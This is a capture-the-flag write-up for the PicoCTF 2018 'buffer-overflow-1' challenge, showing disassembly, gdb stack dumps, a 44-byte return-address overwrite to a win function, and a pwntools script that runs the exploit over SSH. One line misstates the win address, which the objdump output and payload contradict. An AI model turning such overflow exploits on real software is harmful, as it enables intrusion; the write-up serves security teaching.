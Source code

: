 # Write-up for buffer-overflow-1 challenge
# PicoCTF_2018: buffer-overflow-1

**Category:** Binary Exploitation
**Points:** 200

> Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? 
You can find it in /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78 on the shell server. Source

Let's run the program first.

```console
$ ./vuln
Please enter your string: 
AAAA
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
```
Okay, we see that it takes an input and then it jumps to an address. 
It's time to disassemble the program.

```asm
Dump of assembler code for function main:
   0x0804865d <+0>:	lea    ecx,[esp+0x4]
   0x08048661 <+4>:	and    esp,0xfffffff0
   0x08048664 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048667 <+10>:	push   ebp
   0x08048668 <+11>:	mov    ebp,esp
   0x0804866a <+13>:	push   ecx
   0x0804866b <+14>:	sub    esp,0x14
   0x0804866e <+17>:	mov    eax,ds:0x804a03c
   0x08048673 <+22>:	push   0x0
   0x08048675 <+24>:	push   0x2
   0x08048677 <+26>:	push   0x0
   0x08048679 <+28>:	push   eax
   0x0804867a <+29>:	call   0x8048490 <setvbuf@plt>
   0x0804867f <+34>:	add    esp,0x10
   0x08048682 <+37>:	call   0x8048450 <getegid@plt>
   0x08048687 <+42>:	mov    DWORD PTR [ebp-0xc],eax
   0x0804868a <+45>:	sub    esp,0x4
   0x0804868d <+48>:	push   DWORD PTR [ebp-0xc]
   0x08048690 <+51>:	push   DWORD PTR [ebp-0xc]
   0x08048693 <+54>:	push   DWORD PTR [ebp-0xc]
   0x08048696 <+57>:	call   0x80484b0 <setresgid@plt>
   0x0804869b <+62>:	add    esp,0x10
   0x0804869e <+65>:	sub    esp,0xc
   0x080486a1 <+68>:	push   0x8048810
   0x080486a6 <+73>:	call   0x8048460 <puts@plt>
   0x080486ab <+78>:	add    esp,0x10
   0x080486ae <+81>:	call   0x804862f <vuln>
   0x080486b3 <+86>:	mov    eax,0x0
   0x080486b8 <+91>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x080486bb <+94>:	leave  
   0x080486bc <+95>:	lea    esp,[ecx-0x4]
   0x080486bf <+98>:	ret    
End of assembler dump.
```
`vuln()` is where we wanna go because it's probably vulnerable.

```asm
Dump of assembler code for function vuln:
   0x0804862f <+0>:	push   ebp
   0x08048630 <+1>:	mov    ebp,esp
   0x08048632 <+3>:	sub    esp,0x28
   0x08048635 <+6>:	sub    esp,0xc
   0x08048638 <+9>:	lea    eax,[ebp-0x28]
   0x0804863b <+12>:	push   eax
   0x0804863c <+13>:	call   0x8048430 <gets@plt>
   0x08048641 <+18>:	add    esp,0x10
   0x08048644 <+21>:	call   0x80486c0 <get_return_address>
   0x08048649 <+26>:	sub    esp,0x8
   0x0804864c <+29>:	push   eax
   0x0804864d <+30>:	push   0x80487d4
   0x08048652 <+35>:	call   0x8048420 <printf@plt>
   0x08048657 <+40>:	add    esp,0x10
   0x0804865a <+43>:	nop
   0x0804865b <+44>:	leave  
   0x0804865c <+45>:	ret    
End of assembler dump.
```

We found program's vulnerability: 

**0x0804863c <+13>:	call   0x8048430 <gets@plt>**

gets() function is  dangerous. See man page of gets:
```console
BUGS
       Never use gets().  Because it is impossible to tell without knowing the data in advance how many
       characters gets() will read, and because gets() will continue to store characters past  the  end
       of  the  buffer, it is extremely dangerous to use.  It has been used to break computer security.
       Use fgets() instead.
```


So, if we do a buffer overflow we can take control of the return address (return address is stored at $ebp + 0x4) and redirect program's execution.

But where we would like to jump?

Let's search for a suspicious function:
```console
$ objdump -t ./vuln
.
.
.
00000000       F *UND*	00000000              __libc_start_main@@GLIBC_2.0
080486d0 g     F .text	0000005d              __libc_csu_init
080485cb g     F .text	00000064              win
00000000       F *UND*	00000000              setvbuf@@GLIBC_2.0
00000000       F *UND*	00000000              fopen@@GLIBC_2.1
0804a044 g       .bss	00000000              _end
080484d0 g     F .text	00000000              _start
08048748 g     O .rodata	00000004              _fp_hw
0804a03c g     O .bss	00000004              stdout@@GLIBC_2.0
0804a03c g       .bss	00000000              __bss_start
0804865d g     F .text	00000063              main
00000000  w      *UND*	00000000              _Jv_RegisterClasses
0804a03c g     O .data	00000000              .hidden __TMC_END__
00000000       F *UND*	00000000              setresgid@@GLIBC_2.0
00000000  w      *UND*	00000000              _ITM_registerTMCloneTable
080483ec g     F .init	00000000              _init
```

Ohh, we found a win function lying at 0x0804865d. Nice, that's where we wanna return.

How could we do that?

gdb is here to help us:
Remember this instruction:
```asm
0x08048638 <+9>:	lea    eax,[ebp-0x28]
```
This tells us that buffer's size for our input is 0x28 (40 in decimal). 

```gdb
=> 0x0804863b <vuln+12>:	50	push   eax
(gdb) info registers
eax            0xffffcd90          -12912
ecx            0xffffffff          -1
edx            0xffffffff          -1
ebx            0x0                 0
esp            0xffffcd84          0xffffcd84
ebp            0xffffcdb8          0xffffcdb8
esi            0xf7fad000          -134557696
edi            0xf7fad000          -134557696
eip            0x804863b           0x804863b <vuln+12>
eflags         0x296               [ PF AF SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb) x/32wx $esp
0xffffcd84:	0xf7fad000	0x0804a03c	0x0000001a	0xffffcdd8
0xffffcd94:	0xf7fe8e24	0x000003e8	0x00000000	0xf7fad000
0xffffcda4:	0xf7fad000	0xffffcdd8	0x080486ab	0x08048810
0xffffcdb4:	0x000003e8	0xffffcdd8	0x080486b3	0x00000001
0xffffcdc4:	0xffffce84	0xffffce8c	0x000003e8	0xf7fe39f0
0xffffcdd4:	0xffffcdf0	0x00000000	0xf7de2fb9	0xf7fad000
0xffffcde4:	0xf7fad000	0x00000000	0xf7de2fb9	0x00000001
0xffffcdf4:	0xffffce84	0xffffce8c	0xffffce14	0x00000001
```

So, 40 bytes seperate our input and the base of the stack (where previous ebp is stored). Inside ebp + 0x4 is return address, where
our program will return after RET instruction.
We are 44 bytes far from our goal (to change the return address).

So, if our input is 44 A's and the next 4 bytes are B's where would our program return?
Let's see:

```bash
python -c 'print "A"*44 + "B"*4' > payload
./vuln < payload
```

Running these commands we take:

```gdb
=> 0x08048641 <vuln+18>:	83 c4 10	add    esp,0x10
(gdb) info registers
eax            0xffffcd40          -12992
ecx            0xf7fad580          -134556288
edx            0xffffcd70          -12944
ebx            0x0                 0
esp            0xffffcd30          0xffffcd30
ebp            0xffffcd68          0xffffcd68
esi            0xf7fad000          -134557696
edi            0xf7fad000          -134557696
eip            0x8048641           0x8048641 <vuln+18>
eflags         0x246               [ PF ZF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb) x/32wx $esp
0xffffcd30:	0xffffcd40	0xf7fad000	0x0804a03c	0x0000001a
0xffffcd40:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd50:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcd60:	0x41414141	0x41414141	0x41414141	0x42424242
0xffffcd70:	0x00000000	0xffffce34	0xffffce3c	0x000003e8
0xffffcd80:	0xf7fe39f0	0xffffcda0	0x00000000	0xf7de2fb9
0xffffcd90:	0xf7fad000	0xf7fad000	0x00000000	0xf7de2fb9
0xffffcda0:	0x00000001	0xffffce34	0xffffce3c	0xffffcdc4
```
We can see those A's inside the stack. And the 4 B's at 0xffffcd70 ($ebp + 0x4 == return address location).
So, we expect our program to jump to 0x42424242.

```console
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
Segmentation fault (core dumped)
```

Exactly, we jumped to 0x42424242.
Now, let's change the B's with the win's address.

```bash
python -c 'print "A"*44 + "\xcb\x85\x04\x08"' > payload
./vuln < payload
```

That's all. We did it.

> # Crafting python script

To get immediately the flag from the server of picoCTF we create a python script using pwn tools:

```python
#!/usr/bin/python

from pwn import *
import struct

user = 'XXXX'
pw = 'XXXX'

#crafting payload
payload = ''
payload += "A"*44
payload += struct.pack("I", 0x080485cb) #python helps us parse this as a string

#if input was 0x080485cd our program would read it in ascii format(which is something totally different).

s = ssh(host = '2018shell4.picoctf.com', user = user, password = pw)
s.set_working_directory('/problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78')

r = s.process('./vuln')
print r.recv()
r.sendline(payload)
print r.recv()
r.close()
```

